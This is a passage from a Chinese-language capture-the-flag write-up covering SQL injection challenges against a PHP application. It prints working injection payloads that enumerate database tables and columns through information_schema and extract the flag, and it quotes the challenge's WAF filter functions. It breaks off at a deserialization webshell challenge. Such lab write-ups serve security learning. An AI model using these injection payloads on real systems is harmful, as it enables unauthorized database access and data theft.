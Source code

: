 ```
dpt_name=1',sds_address=(select group_concat(column_name) from information_schema.columns where table_name='sds_fl9g')--+
```

```
dpt_name=1',sds_address=(select flag from sds_fl9g)--+
```

![](https://i.loli.net/2021/10/06/kBmEWNKOJ6AGSLU.png)



## 304 sql注入

> hint:
>
> 增加了全局waf
>
> ```php
> function sds_waf($str){
> 	return preg_match('/[0-9]|[a-z]|-/i', $str);
> }
> ```
>
> 

奇怪的是没发现waf，上面的payload还是能用，只不过改了表名：sds_flaag

```
dpt_name=1',sds_address=(select group_concat(table_name) from information_schema.tables where table_schema=database())--+
```

```
dpt_name=1',sds_address=(select group_concat(column_name) from information_schema.columns where table_name='sds_flaag')--+
```

```
dpt_name=1',sds_address=(select flag from sds_flaag)--+
```



## 305 反序列化传马

丢给seay扫![](https://i.loli.net/2021/10/06/Zl8Luz195PMbqdc.png)

先看一下dptadd.php，每个变量都被加上了waf，sql注入大概g了

```php
function sds_waf($str){
	if(preg_match('/\~|\`|\!|\@|\#|\$|\%|\^|\&|\*|\(|\)|\_|\+|\=|\{|\}|\[|\]|\;|\:|\'|\"|\,|\.|\?|\/|\\\|\<|\>/', $str)){
		return false;
	}else{
		return true;
	}
}
```
